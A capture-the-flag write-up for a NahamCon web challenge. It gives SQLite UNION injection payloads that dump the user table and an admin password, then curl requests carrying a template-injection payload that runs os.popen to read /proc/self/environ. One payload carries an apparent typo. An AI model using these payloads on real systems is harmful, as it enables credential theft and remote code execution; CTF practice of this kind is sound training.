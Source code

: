 ## Agent Tester

DESCRIPTION: **We've recently hired an entry-level web developer to build an internal system to test User Agents, let us know if you find any errors!**

SOLUTION: We have the files for the application available with us. Register for a new account and we can see a field which is asking us to enter a User-Agent, although it can be a simple string too. When you enter `'` and Submit we get an error in the SQLITE query and we can see the query in the error, so we have SQLITE injection.

We can get the tables with, `a' UNION SELECT group_concat(tbl_name),group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%`

Tables: uAgents,user

Now can get the column name in the table with, `a' UNION SELECT sql, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='user`

Columns: id, username, password, email, about

We can get username and password now, `a' UNION SELECT grusername, password FROM user WHERE 'a'='a`
(The response for this query might be a little slow)

We have the creds `admin:*)(@skdnaj238374834**__**=`

Logging in will give us the admin account which we can use to access the `/debug` which is only accessible to admin. With this we can try for SSTI in the debug.WE can only make `POST` reqesut to `/debug`, so we can use curl to make the requests.

Checking for SSTI, `curl -X POST http://challenge.nahamcon.com:{POST NUMBER}/debug -H "Cookie: auth=eyJpZCI6MX0.YE9skg._Dzvq6t8hZGpFWbX0UEqJZ6w9eg" -d code={{config}}`
we get the data back.

Now lets get the flag, `curl -X POST http://challenge.nahamcon.com:32177/debug -H "Cookie: auth=eyJpZCI6MX0.YE9skg._Dzvq6t8hZGpFWbX0UEqJZ6w9eg" -d code="{{config.__class__.__init__.__globals__['os'].popen('cat /proc/self/environ').read()}}" --output flag.txt`

Read the flag.txt to get the flag

FLAG: **flag{fb4a87cfa85cf8c5ab2effedb4ea7006}**
